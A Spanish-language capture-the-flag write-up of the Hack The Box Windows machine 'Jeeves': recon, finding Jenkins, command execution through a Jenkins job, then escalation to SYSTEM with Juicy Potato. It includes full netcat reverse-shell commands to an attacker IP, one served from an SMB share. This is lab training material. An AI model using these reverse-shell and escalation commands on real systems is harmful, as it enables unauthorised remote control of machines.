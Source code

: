 ```yaml
---
title: Jeeves Writeup
date: 2022-08-09
categories: [Writeup, HTB]
tags: [Windows, Jenkins, RCE, CMD, Powershell]
image:
  path: /assets/img/Jeeves.png
  width: 800 #normal 800
  height: 500 #normal 500
  alt: Jeeves
---
```


# Maquina windows JEEVES.
En esta maquina tendremos que hacer RCE desde una aplicacion llamada JENKINS con una version vulnerable, que nos permite ejecutar comandos de windows cmd o powershell , ejecutaremos comandos para obtener una revershell.

# Reconocimiento.
Con nmap ejecutamos el reconocimiento.

````bash
>nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oG scan 10.10.10.63
 
>Host: 10.10.10.63 ()	Status: Up
Host: 10.10.10.63 ()	
Ports: 80/open/tcp//http/// 
135/open/tcp//msrpc/// 
445/open/tcp//microsoft-ds/// 
50000/open/tcp//ibm-db2/// Ignored State: filtered (65531)
```` 

Copiamos los puertos abiertos y ejecutamos con nmap 

````bash
>nmap -sCV -p80,135,445,50000 -Pn -oN scanport 10.10.10.63

>PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-09-08T21:10:39
|_  start_date: 2022-09-08T21:07:37
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
`````

# Enumeracion
Vamos a revisar los puertos abiertos 80,135,445,50000

## Puerto 445
Usamos  crackmapexec  para obtener informacion de la maquina, vemos que es un windows 10 el nombre del dominio y el nombre da la maquina.

````bash
>crackmapexec smb 10.10.10.63

>SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False)
`````

Con smbclient vemos que no tenemos acceso a recursos compartidos.

````bash
>smbclient -L 10.10.10.63 -N

>session setup failed: NT_STATUS_ACCESS_DENIED
`````

## Puerto 80.
Vamos a la url http://10.10.10.63 

![imagen-de-prueba](/assets/img/jeeves/pagina-puerto-80.png)
_Pagina_


Vemos que la pagina nos muestra algo sencillo y un campo para hacer preguntas, hacemos una prueba ingresando algo en el campo search pero la pagina nos redireciona a una imagen que habla de un error 

![imagen-de-prueba](/assets/img/jeeves/error-pagina-80.png)
_Error:80_

# Puerto 50000
Revisando el scanport de nmap vemos el puerto 50000 abierto con un servicio 

````bash
50000/tcp open  http         `Jetty 9.4.z-SNAPSHOT`
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
`````

Vamos a la url http://10.10.10.63:50000 

![imagen-de-prueba](/assets/img/jeeves/puerto-50000.png)
_Nmap_


Viedo esto intentamos realizar un escaneo con wfuzz a la url con el puerto 50000.

````bash
>wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
`````

Despues de unos minutos el escaneo nos da el una ruta llamada `askjeeves`

![imagen-de-prueba](/assets/img/jeeves/wfuzz.png)
_Escaneo_

Vamos a la url con la nueva ruta http://10.10.10.63:50000/askjeeves, nos lleva a jenkins que es un servidor de automatizacion.

![imagen-de-prueba](/assets/img/jeeves/jenkins.png)
_pagina_


Tenemos un panel donde investigando un poco vemos q podemos crear tareas

![imagen-de-prueba](/assets/img/jeeves/jenkins-2.png)
_pagina_

Analizando un poco vemos que la tarea nos permite ejecutar comandos windows con cme o powershell, viendo esto ya imaginamos vias potenciales para acceder al sistema.

![imagen-de-prueba](/assets/img/jeeves/jenkins-tareas.png)
_Image Caption_

![imagen-de-prueba](/assets/img/jeeves/comandos-cmd .png)
_cmd_

Creamos la tarea con un comando por cmd para hacer un ping a mi maquina.
 
![imagen-de-prueba](/assets/img/jeeves/pingg.png)
_comando ping_ 

Ejecuto tcpdump para ver si mi maquina responde al ping

````bash
>sudo tcpdump -i tun0 icmp
`````

![imagen-de-prueba](/assets/img/jeeves/tcpdump.png)
_tcpdum_ 


Como se ve en la imagen tengo respuesta y ya conesto sabemos que el servidor jenkins es vulnerable y se puede hacer un RCE.

# Intrusion 
Tenemos conocimiento de que podemos hacer RCE con el servidor jenkins, hay muchas formas de ejecutar comandos para tener acceso remoto a la maquina, yo lo hare con smbserver para crear un recurso compartido y luego creo una tarea en jenkins que ejecute un comando para generar una revershell.

1. Con smbserver creo un recurso compartido.

````bash
>sudo impacket-smbserver smbFolder $(pwd) -smb2support 
`````

2. Descargo netcatx64.exe y lo guardo en la ruta de mi recurso compartido.

3. Creo la tarea en jenkins y agrego el siguiente comando.

````bash
>\\10.10.14.16\smbFolder\ncx64.exe -e cmd 10.10.14.16 443
`````

4. Nos ponemos en escucha con nc ,el smbserver esta activo , ejecutamos la tarea y obtenemos una revershell

![imagen-de-prueba](/assets/img/jeeves/revershell.png)
_shell user_ 


# Escalar privilegios 
Una vez dentro de la maquina vemos que estamos con el usuario `kohsuke`, ejecutemos algunos comandos que nos de informacion de este usuario.

````bash
>whoami /priv
`````

imagen de seimpersonal


El usuario cuenta con el `SeImpersonatePrivilege` lo cual nos proporciona una forma de escalar privilegios, para eso usamos una herramienta llamada `Juicy Potato` que nos permite escalar desde una cuenta normal y ejecutar comandos como `NT AUTHORITY\SYSTEM`.

1. Descargamos desde github el binario .exe
2. Subimos el binario a la maquina victima
3. Ejecutamos el siguiente comando para escalar privilegios.

````bash
.\jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.16 443"

##La ruta del ejemplo es de donde almacene el netcat
`````

![imagen-de-prueba](/assets/img/jeeves/revershelladmin.png)
_shell admin_ 
